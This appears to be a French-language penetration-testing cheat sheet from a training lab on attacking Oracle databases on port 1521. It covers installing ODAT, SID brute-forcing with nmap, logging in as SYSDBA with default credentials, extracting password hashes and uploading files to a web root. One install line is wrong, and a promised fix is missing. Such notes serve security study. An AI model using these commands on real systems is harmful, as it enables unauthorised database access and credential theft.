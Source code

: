 ```yaml
---
public: true 
#Tags: tag1, tag2
---
```


Ports :

- 1521/tcp

## Enumeration

### Installation de l'outil d'énumération

-sid-brute

```
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

### nmap - SID Bruteforcing

```shell-session
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

### odat.py

```shell-session
./odat.py all -s 10.129.204.235
```

### SQLplus - Log In

```shell-session
export ORACLE_HOME=/usr/lib/oracle/19.6/client64
export LD_LIBRARY_PATH="$ORACLE_HOME/lib"
export PATH="$ORACLE_HOME:$PATH"

$ sqlplus <user>/<password@"$TARGET_IP"/<DB_SID>

sqlplus <user>/<password@"$TARGET_IP"/<DB_SID> as SYSDBA  <==
```

If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

## Commandes utiles

```sql
SQL> select table_name from all_tables;
SQL> select * from user_role_privs;

```

#### Oracle RDBMS - Extract Password Hashes

```shell-session
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
```

#### Oracle RDBMS - File Upload

Si la vulnérabilité est exploitable et que le serveur héberge un serveur web dont on arrive à trouver le chemin d'accès à la racine, on peut tenter cela :

```shell-session
$ echo "Oracle File Upload Test" > testing.txt
$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[...]
```

Valider l'upload

```shell-session
curl -X GET http://10.129.204.235/testing.txt
```
